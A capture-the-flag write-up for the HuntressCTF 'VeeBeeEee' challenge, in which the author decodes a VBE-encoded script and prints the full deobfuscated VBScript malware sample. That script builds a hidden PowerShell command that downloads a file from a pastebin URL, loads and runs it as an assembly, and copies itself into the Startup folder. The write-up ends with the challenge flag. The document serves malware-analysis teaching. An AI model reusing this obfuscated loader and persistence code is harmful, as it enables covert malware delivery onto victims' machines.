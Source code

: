 ```yaml
---
title: 2023 HuntressCTF - VeeBeeEee
date: 2023-10-06T15:04:11-06:00
tags:
  - wscript
  - vbs
  - malware
image: /2023-HuntressCTF/veebeeeee.png
---
```


### Summary
```
Author: @JohnHammond

While investigating a host, we found this strange file attached to a scheduled task. It was invoked with wscript or something... can you find a flag?

NOTE, this challenge is based off of a real malware sample. We have done our best to "defang" the code, but out of abudance of caution it is strongly encouraged you only analyze this inside of a virtual environment separate from any production devices.

```

### Steps

I started this challenge in my linux VM.  After downloading the file ```veebeeEee``` and I executed ```file veebeeEee``` and received this response:
```bash
veebeeEee: data
```
Unsure at this point I used cat to look at the file contents and here is what I found:
```bash
#@~^fhAAAA==jY~}4N+mDP,xPq?^DbwO ;D+mO+}4L^O`rUm.k2Oc?4+^sJ*PvvEBBvvEBvBEvEBvmV2GXkWGwsBCV2GzdK+Wah@&U+Y,j64N+1Y~'~/M+CY64N+^OvJ?4n^V ba2^k^mYbWxr#EvBEBvBEBvvEBBEvl^&GHdG+KwsBCVf{H/G+K2:@&?nO,sr8%mOP{~;DnmYr4N+1O`r?^DbwOr	oRwrV?XkOn:}4N+^YEbEBvBEvBEBvvEBBvvmVfGHdK+Ga:ElV2GHdWW2:@&?KCDtP,~',?1.rwDRUm.k2OwEsVgC:BvvEBBvvEBvBEvEBC^&FX/K+K2:Els&FXdGWws@&fb:P;G[+EBEBvBvvEBvBEvBElsfFX/GnKwhBms2GzkWWws@&EvBEBvBEBvvEBBEvl^&GHdG+KwsBCVf{H/G+K2:@&nGAD!~x,JKWrvEBvEBEBBEBEvBEBCV2GzdK+WahBmV&FzdWWa:@&nGADqP{~JS+EvEBBvvEBvBEvEBvEl^&GH/KnWa:vl^&{zkW+K2:@&nWSn. ,',J.?EvEBvBEvBEBvvEBBvC^&{XkGW2sBmV&FXkG+Kwh@&hWAnM&P{~J4+J@&KGhDWPxPEs^JvBEvBEBvvEBBvvEBCV2{H/GWa:BmV2{XkWnWa:@&KKh+MXP{PJ,EvBEBEBvBvvEBvBEvl^&{zkW+G2sBCV2{H/GWa:@&hWSnD,'~nKhn.ZP_,KWS+D8~QPhWS+. ~Q,nGh.&,_~KKh+.*,_~nKADXEBEBBEBEvBEBvBEBCs2GXkG+Kw:ECs&FXkWnW2h@&BvBEvBEBvvEBBvvEls&FzkWnKwsBl^&Fz/K+Gws@&KCDt!,xPr[^LW'[{[E['Z'EEBvBEvBEBvvEBBvvmVfGHdK+Ga:ElV2GHdWW2:@&nCO4FP{~JL)[''i[k[['DdE,BvBEvBEBvvEBBvvEls&FzkWnKwsBl^&Fz/K+Gws@&KCDt ,xPr[-h''EL4LV'k''1[EBEvBEBvvEBBvvEBvl^fFXdK+Kw:El^fGH/G+Kwh@&hlY4fP{PJ'9'[K[1[;[hnrPvBEvBEBvvEBBvvEBCV2{H/GWa:BmV2{XkWnWa:@&KmYtW~',JxLOd['[L9'E'sHJvBEvBEBvvEBBvvEBCV2{H/GWa:BmV2{XkWnWa:@&KmYtl~',J[c4'YL[s[viEvEBvBEvBEBvvEBBvC^&{XkGW2sBmV&FXkG+Kwh@&hlO4,PP{~nmYtZ~QPhlDtqPQ~hlOty~_,nCO4&PQ~hlOtW~3PKmY4*BEBEvBEBvBEBvvEBl^fGH/WG2:El^&{XdGW2:@&vBEBvvEBBvvEBvBEC^&{H/K+Wa:ECV2Gz/K+G2sBBEvBEBBEvvBEBEBCVf{H/G+K2:ElsfFX/GnKwh@&"n$+dD!,'Pr[b'[6P'`L"cPL+[kO[ n[mO4PL^L0b[b`L[([	'\LW'V[O'	L+8[L]L+5LEL[+L/LOPEJvBEBvvEBBEvBEBBECs&FXkWnW2hEls&Fz/K+G2s@&In5/OF,x,J'4[D[YLwLd[=[&[J[2'm[/LOJEBBEvvBEBEBvBvvEls&Fz/K+G2sBlsfFXdWGa:@&"+$+/D ,xPr[n[([r'	[RL^[K[:L&'DLlLhEBvvEBvBEvBEBvvEBlsfFXdWGa:vmV2GXkWGws@&]+$+dO2P',E[J[?Lr'5LMLh'h'^Ly'JEvBEBvvEBBvvEBvBms2GzkWWwsBms&FXdWW2h@&I+$n/DcP{~EBLPLOG[;'rBvBEvBEBvvEBBvvEls&FzkWnKwsBl^&Fz/K+Gws@&]n$+/DXP{PJD'W[b[^+~[yWLP~[)IJEBvvEBBvvEBvBEvEls2GH/WWahBmVfGH/GnKw:@&]+$+/D~xP"+$+dYT~3P]+$n/DF~Q,I+5nkY+P3~,In$+kY&,_,]+$+dYWPQ~"+;dYlBBEvvBEBEBvBvvEBCV2{XkWnGa:BCs2Gz/KnKwh@&nmYtUYMrxTPxPUr8%mYcHls+?aC^+vG*Rj+sWcnCY4~[,J&E,[P	j1DrwD Um.bwD1ls+EvBEBvBEBvvEBBEvl^&GHdG+KwsBCVf{H/G+K2:@&qU-K3+]n$+dYZ~{PEL$L?[H[k'YL+':LREvEBBEvBEBBEvvBEBmVfGzdK+Gwsvl^&{zkW+G2s@&(x7G0+];/Y8P{~JLI'+L0'sL+[1'YLk[rvvBEBEBvBvvEBvBECV2GzdK+W2hEls&FzkWnKws@&q	\KV+"+5+kY+~{PJK'xLR[z'd[k[[h[8'^JvBEvBEBvvEBBvvEBCV2{H/GWa:BmV2{XkWnWa:@&(	\W0nI;+kOfP{Pr[z[D'=[l[^'WLl'[L0J~vEBvBEvEBvEBEBBEl^fGH/G+KwhvmV&Fz/K+Wah@&q	\K3nIn5/Oc,xPr[r'^[+c'f[EBEvEBvEBEBBEBEvBmVfGH/GnKw:ECV2GXkGnWa:@&qU\GVIn;dYlPx~r0[b'p[EBEvEBvEBEBBEBEvBmVfGH/GnKw:ECV2GXkGnWa:@&qU\GVIn;dY,'~(	\WVn"+5+kOZPQ,q	\W0+"n;/OF,_~(	\W0nI;+kO+P3P&x-WVn"+5+kO&,_~(	\WVn"+5+kOWPQ,q	\W0+"n;/O*EBvvEBBEvBEBBEvvl^&FXdWnGa:vl^fGH/GnKw:@&vEBvBEvEBvEBEBBEl^fGH/G+KwhvmV&Fz/K+Wah@&2X+1bd/nhZPxPr'$L'GLD[VEEBvBEvEBvEBEBBEBms&FXdWW2hElV2{XkW+K2h@&A6m)/dnsF~',E[z[.'[l' rBvBEvEBvEBEBBEBECV2Gz/K+G2sBl^fGH/WG2:@&2X+^bdd:+P{~JL'GL[D'VrBvBEvEBvEBEBBEBECV2Gz/K+G2sBl^fGH/WG2:@&2X+^bdd:fP{~JY[l'rBBvvEBvBEvEBvEBElV2GHdWW2:ElsfFX/KnWa:@&Aanmz/k+hc~x,Jl[A'6LJ~vEBBvvEBvBEvEBvEl^&GH/KnWa:vl^&{zkW+K2:@&26^)/k+s*~'~E`'#LEBEBvvEBBvvEBvBEvmVfFXkW+Kwsvl^&{XkWnGa:@&Aa+1b/knhP,P{P36n^z/d+sTP3P3ambdd:qP3~A6n1bk/+s ,QPA6nmz/dns&P3~2X+mzdd+sc,_~2an1bd/h*EBvvEBBvvEBvBEvEls2GH/WWahBmVfGH/GnKw:@&vBEBBEvvBEBEBvBvC^&{XkG+KwhvmV&{zkWnWah@&ZG^VmY:tUIwsl1+~KKh+M~~,nlD4~~,I;n/O~BP(x7G3In5/Y~S,2a+1)k/ns@&EBBEBEvBEBvBEBvvmV&Fz/K+Wahvl^&FXdWnGa:@&@&U;4,ZGs^+mOP4+UI2^l^`wkDkYB~?mGx9PS~:tkM[PBPsK;.Y4PBPokWO4#vBEvBEBvvEBBvvEBCV2{H/GWa:BmV2{XkWnWa:@&P:w,xPwkDkO~_,?mGx[~3PPtb.N,_~oKEDO4,_~sbWDtvEBEBBEBEvBEBvBElsfFX/KnWa:BmsfGH/K+Gwh@&;W[+,xP"+2smm+cP:2PB~r[E,~,JJ,#EvBEBvBEBvvEBBEvl^&GHdG+KwsBCVf{H/G+K2:@&2U[,?E8vEBvBEvEBvEBEBBEl^fGH/G+KwhvmV&Fz/K+Wah@&BEBEBvBvvEBvBEvBmVf{H/WnGa:vl^fFXdK+Kw:@&IOEMx~',r8%mYc]E	`ZK[n~,!BPOD;n*BvBEvBEBvvEBBvvEls&FzkWnKwsBl^&Fz/K+Gws@&vvEBBEvBEBBEvvBEl^&{XdGW2:ECV2GzdK+W2h@&jmMraY UV+wv*ZT!Z#vBEBvvEBBEvBEBBECs&FXkWnW2hEls&Fz/K+G2s@&sG.,k~',q,KG,*EBBEBEvBEBvBEBvvmV&Fz/K+Wahvl^&FXdWnGa:@&k6~k,'~X,KtnUEBvBEvEBvEBEBBEBms&FXdWW2hElV2{XkW+K2h@&hlkYn`jKmY4#@&3x9PrWEBBvvEBvBEvEBvEBmV&FXkG+KwhBmVf{H/WGws@&1aOBEBEBvBvvEBvBEvBmVf{H/WnGa:vl^fFXdK+Kw:@&?!8PhldY`]P*@&s}8LmYc/GwHsbVnP]PBnCY4jYMkUL@&2x[~UE8yLIEAA==^#~@%
```

Looking back at the challenge description, I see that may have been executed by wscript.  Looking at [Microsoft](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/wscript) I see that wscript can execute .wsf, .vbs, and .js files.  The text looks heavly obfuscated, so I started to research for .wsf, .vbs and .js deobfuscation tools, and I discovered [vbe-decoder](https://github.com/JohnHammond/vbe-decoder) by John Hammond, so I knew this was the right path.  Using John's script, I executed ```python3 ./vbe-decoder.py veebeeEee > veebeeeee.vbs``` and received the following deobfuscated text.
```vbs
Set Object  = WScript.CreateObject("WScript.Shell") ''''''''''''''''al37ysoeopm'al37ysoeopm
Set SObject = CreateObject("Shell.Application")''''''''''''''''al37ysoeopm'al37ysoeopm
Set FObject = CreateObject("Scripting.FileSystemObject")''''''''''''''''al37ysoeopm'al37ysoeopm
SPath   = WScript.ScriptFullName''''''''''''''''al37ysoeopm'al37ysoeopm
Dim Code''''''''''''''''al37ysoeopm'al37ysoeopm
''''''''''''''''al37ysoeopm'al37ysoeopm
Power0 = "Po"''''''''''''''''al37ysoeopm'al37ysoeopm
Power1 = "we"''''''''''''''''al37ysoeopm'al37ysoeopm
Power2 = "rS"''''''''''''''''al37ysoeopm'al37ysoeopm
Power3 = "he"
Power4 = "ll"''''''''''''''''al37ysoeopm'al37ysoeopm
Power5 = " "''''''''''''''''al37ysoeopm'al37ysoeopm
Power = Power0 + Power1 + Power2 + Power3 + Power4 + Power5''''''''''''''''al37ysoeopm'al37ysoeopm
''''''''''''''''al37ysoeopm'al37ysoeopm
Path0 = "&$&f&&=&'&&C&"''''''''''''''''al37ysoeopm'al37ysoeopm
Path1 = "&:&\&U&s&e&&rs" ''''''''''''''''al37ysoeopm'al37ysoeopm
Path2 = "&\P&&u&b&l&i&&c&"''''''''''''''''al37ysoeopm'al37ysoeopm
Path3 = "\D&&o&c&u&me" ''''''''''''''''al37ysoeopm'al37ysoeopm
Path4 = "n&ts&\&&J&u&ly"''''''''''''''''al37ysoeopm'al37ysoeopm
Path5 = "&.h&t&&m&';"''''''''''''''''al37ysoeopm'al37ysoeopm
Path   = Path0 + Path1 + Path2 + Path3 + Path4 + Path5''''''''''''''''al37ysoeopm'al37ysoeopm
''''''''''''''''al37ysoeopm'al37ysoeopm''''''''''''''''al37ysoeopm'al37ysoeopm
Reqest0 = "&i&&f &(&!(T&e&st&-P&ath &$&f)&){&&I&n&v&o&ke&-&W&eb&&R&eq&u&&e&s&t '"''''''''''''''''al37ysoeopm'al37ysoeopm
Reqest1 = "&h&t&t&p&s&:&/&/&p&a&s&t"''''''''''''''''al37ysoeopm'al37ysoeopm
Reqest2 = "&e&b&i&n&.&c&o&m&/&r&a&w"''''''''''''''''al37ysoeopm'al37ysoeopm
Reqest3 = "&/&S&i&Y&G&w&w&c&z&"''''''''''''''''al37ysoeopm'al37ysoeopm
Reqest4 = "'& &-o&u&"''''''''''''''''al37ysoeopm'al37ysoeopm
Reqest5 = "t&f&i&le &$f&  &};"''''''''''''''''al37ysoeopm'al37ysoeopm
Reqest = Reqest0 + Reqest1 + Reqest2 +  Reqest3 + Reqest4 + Reqest5''''''''''''''''al37ysoeopm'al37ysoeopm
PathString = SObject.NameSpace(7).Self.Path & "/" & WScript.ScriptName''''''''''''''''al37ysoeopm'al37ysoeopm
InvokeReqest0 = "&[&S&y&s&t&e&m&."''''''''''''''''al37ysoeopm'al37ysoeopm
InvokeReqest1 = "&R&e&f&l&e&c&t&i&"''''''''''''''''al37ysoeopm'al37ysoeopm
InvokeReqest2 = "o&n&.&A&s&s&e&m&b&l"''''''''''''''''al37ysoeopm'al37ysoeopm
InvokeReqest3 = "&y&]&:&:&l&o&a&d&f" ''''''''''''''''al37ysoeopm'al37ysoeopm
InvokeReqest4 = "&i&l&e(&$&"''''''''''''''''al37ysoeopm'al37ysoeopm
InvokeReqest5 = "f&)&;&"''''''''''''''''al37ysoeopm'al37ysoeopm
InvokeReqest = InvokeReqest0 + InvokeReqest1 + InvokeReqest2 + InvokeReqest3 + InvokeReqest4 + InvokeReqest5''''''''''''''''al37ysoeopm'al37ysoeopm
''''''''''''''''al37ysoeopm'al37ysoeopm
ExecAssem0 = "&[&W&o&r&k"''''''''''''''''al37ysoeopm'al37ysoeopm
ExecAssem1 = "&A&r&e&a&."''''''''''''''''al37ysoeopm'al37ysoeopm
ExecAssem2 = "&W&o&&r&k"''''''''''''''''al37ysoeopm'al37ysoeopm
ExecAssem3 = "]&:&"''''''''''''''''al37ysoeopm'al37ysoeopm
ExecAssem4 = ":&E&x&" ''''''''''''''''al37ysoeopm'al37ysoeopm
ExecAssem5 = "e(&)&"''''''''''''''''al37ysoeopm'al37ysoeopm
ExecAssem   = ExecAssem0 + ExecAssem1 + ExecAssem2 + ExecAssem3 + ExecAssem4 + ExecAssem5''''''''''''''''al37ysoeopm'al37ysoeopm
''''''''''''''''al37ysoeopm'al37ysoeopm
CollectThenReplace Power , Path , Reqest , InvokeReqest , ExecAssem
''''''''''''''''al37ysoeopm'al37ysoeopm

Sub CollectThenReplace(First, Second , Third , Fourth , Fifth)''''''''''''''''al37ysoeopm'al37ysoeopm
Temp = First + Second + Third + Fourth + Fifth''''''''''''''''al37ysoeopm'al37ysoeopm
Code = Replace(Temp , "&" , "" )''''''''''''''''al37ysoeopm'al37ysoeopm
End Sub''''''''''''''''al37ysoeopm'al37ysoeopm
''''''''''''''''al37ysoeopm'al37ysoeopm
Return = Object.Run(Code, 0, true)''''''''''''''''al37ysoeopm'al37ysoeopm
''''''''''''''''al37ysoeopm'al37ysoeopm
WScript.Sleep(50000)''''''''''''''''al37ysoeopm'al37ysoeopm
For i = 1 To 5''''''''''''''''al37ysoeopm'al37ysoeopm
if i = 5 Then''''''''''''''''al37ysoeopm'al37ysoeopm
Paste(SPath)
End if''''''''''''''''al37ysoeopm'al37ysoeopm
Next''''''''''''''''al37ysoeopm'al37ysoeopm
Sub Paste(RT)
FObject.CopyFile RT,PathString
End Sub%  
```

At this point, I moved over to a Windows virtual machine and pasted the script into Notepad+++ and used syntax highlight for Visual Basic to help read the file better.
![](/2023-HuntressCTF/notepadplusplus.png)

Looking at the code, I see the Power* variables are calling PowerShell.

![](/2023-HuntressCTF/powershell.png)

I also noticed this script has some comments that don't appear to be related, for the sake of readability, I removed all occurances of ```''''''''''''''''al37ysoeopm'al37ysoeopm```

Continuing to manually deobfuscate the code, I wanted to see the full path for the Reqest variable.  I created a request0.vbs script with the following code.  Here the goal is use wscript.echo to print out the Reqest variable.
```vbs
Reqest0 = "if (!(Test-Path $f)){Invoke-WebRequest '"
Reqest1 = "https://past"
Reqest2 = "ebin.com/raw"
Reqest3 = "/SiYGwwcz"
Reqest4 = "' -ou"
Reqest5 = "tfile $f  };"
Reqest = Reqest0 + Reqest1 + Reqest2 +  Reqest3 + Reqest4 + Reqest5

wscript.echo Reqest
```

Using the Windows VM I executed request0.vbs and I received a popup box with the full URL.  

![](/2023-HuntressCTF/wscriptecho.png)

Investigating the Pastebin URL I discoverd the flag.
![](/2023-HuntressCTF/veebeeeeflag.png)

flag: ```flag{ed81d24958127a2adccfb343012cebff}```
